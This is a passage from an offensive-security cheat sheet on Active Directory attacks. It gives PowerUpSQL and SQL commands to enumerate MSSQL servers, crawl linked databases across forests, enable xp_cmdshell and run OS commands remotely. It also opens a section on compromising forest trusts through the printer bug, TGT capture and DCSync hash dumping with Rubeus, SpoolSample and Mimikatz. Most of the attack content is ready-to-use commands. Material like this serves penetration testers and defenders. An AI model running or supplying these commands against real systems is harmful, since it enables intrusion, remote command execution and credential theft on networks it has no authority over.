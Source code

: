 * Enumerate MSSQL Instances: `Get-SQLInstanceDomain`
* Check Accessibility as current user:

```text
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

* Gather Information about the instance: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
* Abusing SQL Database Links: _A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust!_

Check for existing Database Links:

```text
#Check for existing Database Links:
#PowerUpSQL:
Get-SQLServerLink -Instace <SPN> -Verbose
     
#MSSQL Query:
select * from master..sysservers
```

Then we can use queries to enumerate other links from the linked Database:

```text
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')
     
#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose
     
#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```

Query execution:

```text
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```

### Breaking Forest Trusts

_If we have a bidirectional trust with an external forest and we manage to compromise a machine on the local forest that has enabled unconstrained delegation \(DCs have this by default\), we can use the printerbug to force the DC of the external forest's root domain to authenticate to us. Then we can capture it's TGT, inject it into memory and DCsync to dump it's hashes, giving ous complete access over the whole forest._

Tools we are going to use:

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
